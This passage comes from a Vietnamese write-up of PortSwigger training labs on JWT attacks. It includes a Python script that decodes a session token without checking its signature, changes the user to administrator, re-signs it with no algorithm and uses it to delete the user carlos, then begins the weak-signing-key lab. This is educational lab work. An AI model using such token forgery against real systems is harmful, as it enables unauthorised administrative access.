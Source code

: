 ```python!
)

token =  response.headers['Set-Cookie'].split('; ')[0].split('=')[1]

decode_token = jwt.decode(token, options={"verify_signature":False})
print(f"Decode token: {decode_token}\n")

decode_token['sub'] = 'administrator'
print(f"Modified payload : {decode_token}\n")

modified_token = jwt.encode(decode_token, None, algorithm=None).decode()
print(f"Modified token : {modified_token}\n")

session_data = modified_token
cookies = {
    'session' : session_data,

}

response = requests.get(
    url + '/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/ryC_YOgpT.png)


![image](https://hackmd.io/_uploads/SyUwFdgaa.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này 

![image](https://hackmd.io/_uploads/S1e3Fue6T.png)

## 3. Lab: JWT authentication bypass via weak signing key

link: https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key

### Đề bài

![image](https://hackmd.io/_uploads/rJ6ds_lap.png)

### Phân tích 
- Phòng thí nghiệm này sử dụng cơ chế dựa trên JWT để xử lý các phiên. Nó sử dụng một khóa bí mật cực kỳ yếu để ký và xác minh mã thông báo. Điều này có thể dễ dàng bị tấn công brute force bằng cách sử dụng danh sách từ chứa những bí mật chung .
- Một khi secret key sử dụng để sinh các token JWT xác thực bị lộ sẽ dẫn đến hậu quả nghiêm trọng, kẻ tấn công có thể tùy ý thay đổi các giá trị tham số quan trọng, từ đó mạo danh người dùng bất kỳ, nâng cấp quyền hạn tài khoản.
- chúng ta cần vào được bảng quản trị tại ```/admin```, sau đó xóa người dùng carlos.
- tương tự bài trước mình vào đăng nhập và được trả về 1 token
